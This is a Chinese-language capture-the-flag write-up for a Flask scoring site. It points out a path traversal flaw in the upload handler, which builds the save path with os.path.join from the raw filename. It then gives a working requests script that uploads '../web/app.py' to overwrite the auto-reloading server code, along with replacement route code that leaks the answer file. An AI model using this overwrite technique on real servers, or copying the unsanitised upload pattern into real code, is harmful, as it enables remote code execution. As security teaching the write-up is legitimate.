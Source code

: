 ```python
        return redirect("/")
    file = request.files['file']
    filename = file.filename
    filepath = os.path.join(UPLOAD_DIR, filename)
    file.save(filepath)

    answers = get_answer()
    try:
        with open(filepath) as f:
            user = json.load(f)
    except json.decoder.JSONDecodeError:
        flash("你提交的好像不是 JSON")
        return redirect("/")
    try:
        score = 0
        for idx, i in enumerate(answers):
            score += (i - user[idx]) * (i - user[idx])
    except:
        flash("分数计算出现错误")
        traceback.print_exc()
        return redirect("/")
    # ok, update results
    results.append(score)
    with open("results.json", "w") as f:
        json.dump(results, f)
    flash(f"评测成功，你的平方差为 {score}")
    return redirect("/")
```

花里胡哨的算分功能，根本不用看，只要意识到在`/submit`接口有一个路径穿越漏洞就行了，因为它是用`os.path.join`来拼接路径的，所以我们就可以上传一个文件名类似于`../../balabala`这种，我们就基本可以想上传到哪就上传到哪。

注意到题目告诉了我们：网站代码运行在 `/tmp/web`，而且他甚至还开了`--reload`。既然网站是用`flask`写的，那我盲猜一波主文件在`/tmp/web/app.py`，而我们上传的路径在`/tmp/uploads`，所以我们直接上传一个文件`../web/app.py`，这个操作则可以用`requests`实现：

```python
import requests

url = 'https://chal02-drfrs8jw.hack-challenge.lug.ustc.edu.cn:8443/'
file = 'backend.py'

with open(file, 'rb') as f:
    files = {'file': ('../web/app.py', f)}
    response = requests.post(url + 'submit', files=files)

```

而`backend.py`文件中，我们就可以去写拿flag的逻辑了，比如把index路径的请求改了：

```python
@app.route("/", methods=["GET"])
def index():
    with open("answers.json") as f:
        answers = json.load(f)[:100]
    ascii_answers = ''.join(chr(num + 65) for num in answers if isinstance(num, int))
    return ascii_answers
    # return render_template("index.html", results=sorted(results))
```
